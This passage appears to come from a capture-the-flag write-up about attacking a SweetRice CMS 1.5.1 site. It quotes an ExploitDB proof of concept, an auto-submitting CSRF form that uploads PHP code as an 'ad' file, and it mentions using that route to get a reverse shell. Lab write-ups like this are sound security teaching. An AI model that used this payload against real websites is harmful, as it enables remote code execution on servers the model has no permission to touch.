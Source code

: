 But just being able to see the dashboard isn't really enough for us to do anything. I was a little stuck, so I looked at
the other exploits.

## Cross-Site Request Forgery / PHP Code Execution

From ExploitDB:

```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerability In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo();
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```

So this seems like an admin can add a malicious 'ad' to the website which can be a PHP file. Thus, we could probably use
this to get a reverse shell, since we already have admin access.
